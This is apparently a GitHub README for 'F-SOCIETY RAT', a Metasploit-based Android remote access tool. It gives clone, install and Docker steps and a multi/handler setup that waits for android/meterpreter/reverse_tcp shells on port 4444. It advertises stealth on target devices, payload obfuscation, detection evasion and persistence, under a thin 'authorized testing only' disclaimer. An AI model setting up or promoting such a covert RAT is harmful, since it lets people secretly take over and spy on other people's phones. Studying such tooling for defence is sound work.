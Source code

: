 ## F-SOCIETY RAT
![](https://img.shields.io/badge/F--SOCIETY-RAT-red)
![.](https://img.shields.io/badge/Metasploit-Android-blue)
![](https://img.shields.io/badge/Security-Testing-orange)

A powerful Remote Administration Tool (RAT) built on the Metasploit Framework specifically designed for Android penetration testing and security assessment.

**⚠️ DISCLAIMER**
This tool is developed for educational and authorized security testing purposes only.

Only use on devices you own or have explicit written permission to test

Unauthorized access to computer systems is illegal

The developers are not responsible for any misuse of this software

Users must comply with all applicable laws and regulations

**🚀 Features**
Metasploit Integration: Built on top of the powerful Metasploit framework

Android Targeting: Specifically designed for Android devices

Multiple Payload Options: Various payload types for different scenarios

Easy Deployment: Simple setup and deployment process

Stealth Operations: Designed to run discreetly on target devices


**📋 Prerequisites**
Before installation, ensure you have:

Kali Linux or any Linux distribution

Metasploit Framework installed

Android SDK (for certain advanced features)

Ruby 2.7+

Minimum 4GB RAM

2GB free disk space




🔧 Installation Process
Method 1: Automated Installation (Recommended)
bash
# Clone the repository
git clone https://github.com/Athexhacker/f-society-rat.git
cd f-society-rat

# Run This Fisrt
`chmod +x set-up.sh`

# Run the installation script
`bash install_requirements.sh`
# Run Finall Command
`bash run.sh`


**Method 2: Metasploit Installation**
bash
# Update system packages
`sudo apt update && sudo apt upgrade -y`

# Install Metasploit (if not already installed)
`bash set-up.sh`

# Clone F-SOCIETY RAT
git clone https://github.com/Athexhacker/f-society-rat.git
cd f-society-rat

# Run and enjoy
bash run.sh





**Method 3: Docker Installation**
bash
# Pull the Docker image
docker pull your-dockerhub/f-society-rat:latest

# Or build from Dockerfile
docker build -t f-society-rat .

# Run the container
docker run -it --name f-society-rat -p 4444:4444 f-society-rat




🛠️ Configuration
Database Setup
bash
# Initialize Metasploit database
sudo msfdb init

# Start database service
sudo systemctl start postgresql
sudo systemctl enable postgresql

# Use the multi-handler
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
exploit



## 🔒 Security Features
Payload Obfuscation: Advanced obfuscation techniques

Anti-Analysis: Detection evasion methods

Persistence: Various persistence mechanisms

Encryption: Secure communication channels

## Remember: With great power comes great responsibility. Use this tool ethically and legally.

<div align="center">
F-SOCIETY RAT - Power in your hands, responsibility in your heart

</div>
